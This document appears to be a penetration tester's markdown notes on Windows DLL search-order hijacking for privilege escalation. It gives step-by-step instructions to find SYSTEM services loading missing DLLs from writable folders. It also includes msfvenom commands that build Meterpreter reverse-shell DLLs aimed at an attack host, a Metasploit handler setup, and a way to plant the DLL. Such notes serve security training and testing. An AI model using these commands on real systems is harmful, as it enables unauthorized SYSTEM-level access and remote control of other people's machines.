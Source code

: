 # DLL Search Order
1) Directory from which application launched
2) C:\Windows\System32
3) C:\Windows\System
4) C:\Windows
5) Current directory
6) Directories specified in the environment %PATH% variable.

# Steps To Execute with Process Explorer
1) Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) as administrator.
2) To the Process Image grid, add the User Name column.
3) Look for processes running as NT AUTHORITY\SYSTEM.
4) Double-click on process.
5) Make note of image path and the service, listed under Services tab.
6) Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) as administrator.
7) Create a filter for a specific EXE to investigate (Process Name is [Process.exe] identified in Process Explorer).
8) Find service in Windows Services.
9) Confirm the service runs as Local System, under Log On.
10) Stop and start service, while watching it in Process Monitor.
11) Stop capture.
12) Create a filter for NAME NOT FOUND, for the Result column.
13) Look for instances that the application is looking for a DLL in a directory for which we have write permissions.
14) Create reverse_https, Meterpreter payload, with msfvenom. ```msfvenom -p windows/meterpreter/reverse_https LHOST=[Attack Host] LPORT=443 -f dll -o [DLL found in previous step]```
15) Copy payload, matching name and path identified in the prior step.
16) Restart service.
17) In Process Explorer, the selected service spawned a rundll32.exe process, running as SYSTEM, and is the process establishing the reverse shell.
18) Double-click on rundll32.exe and the connection will show in the TCP/IP tab.
19) **NOTE** Metasploit has a module for this attack:  windows/local/srclient_dll_hijacking.

# Steps To Execute without Process Explorer
1) Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) as administrator.
2) Create filters:
    1) Operation Includes Is "CreateFile." 
    2) Result Includes Is "NAME NOT FOUND." 
    3) Path Includes Ends With ".dll."
    4) Unselect "Show Registry Activity."
    5) Unselect "Show Network Activity."
3) Identify DLL.
4) Check for write permission to directory.
```powershell
Get-ACL '[Path Only to DLL]' | Format-List
```
5) Create a payload adn listener.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Attack Host] LPORT=4444 -f dll > [DLL Filename]

msfconsole
use exploit/use multi/handler
set lhost eth1
set payload windows/meterpreter/reverse_tcp
run
```
6) Copy to Target with low permission user. ```python -m SimpleHTTPServer 80```
7) Start application with escalated permission user.


# References
##### [Dynamic-Link Library Search Order](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN)
##### [Secure loading of libraries to prevent DLL preloading attacks](https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1)